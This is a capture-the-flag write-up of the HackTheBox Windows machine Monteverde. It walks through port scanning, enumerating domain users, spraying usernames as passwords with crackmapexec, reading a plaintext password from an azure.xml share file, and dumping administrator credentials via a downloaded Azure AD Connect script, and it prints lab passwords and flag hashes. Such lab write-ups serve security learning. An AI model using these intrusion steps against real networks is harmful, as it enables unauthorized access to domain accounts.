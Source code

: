# Hackthebox - Monteverde

## Summary

Monteverde,a Windows box created by HackTheBox user `egre55`, was an overall medium difficulty box. Initial foothold was finding a cred which was a result of a lazy sysadmin. using that we can find credentials for user in a ```azure.xml``` file. checking the group of that user we see it is in Azure Admin group which mean it can perform DCSync using that we can get administrator credentials and pwned this box.

## Enumeration

### nmap scan
```
### Nmap 7.80 scan initiated Tue June 2 14:11:44 2020 as: nmap -T4 -sC -sV -oN nmap/monteverde 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.21s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-11 19:22:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5E1A1E53%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-01-11T19:23:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
### Nmap done at Sat Jan 11 14:17:14 2020 -- 1 IP address (1 host up) scanned in 329.68 seconds
```
we see all the ports are `Active Directory` and `SMB` related

running `emum4linux` we get a list of usernames.
```
=============================
|    Users on 10.10.10.172    |
=============================
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)

user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```
using that we can create a `users.txt` as
```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
` crackmapexec smb 10.10.10.172 -u users.txt -p users.txt`

Trying the same username as password we get a successful credential as `SABatchJobs:SABatchJobs`

Trying that on `winrm` we get `Invalid credential` so lets try on `smb`, and Bingo

we can list and Read lot of shares checking //10.10.10.172/users$ share we see there is a `azure.xml` in `mhope` directory
```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
which contain the password as `4n0therD4y@n0th3r$` for `mhope`.

Trying that with [evil-winrm](https://github.com/Hackplayers/evil-winrm) we get a shell as mhope using that we can grab users.txt as `4961976bd7d8f4eeb2ce3705e2f212f2`

## Privilege Escalation

Taking a look to the privileges of this user you can find that it is a member of the group Azure Admins

which means we can do DCSync.

Reading about any exploits for Azure Admin Sync we stumble upon [xpnsec](https://blog.xpnsec.com/about/) [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

Performing the attack is as easy as downloading the PS1 [script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) and executing that.

```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

and we have credential for administrator using that we can grab root.txt as `12909612d25c8dcf6e5a07d1a804a0bc`
and we have pwned  `Monteverde` 💃💃💃

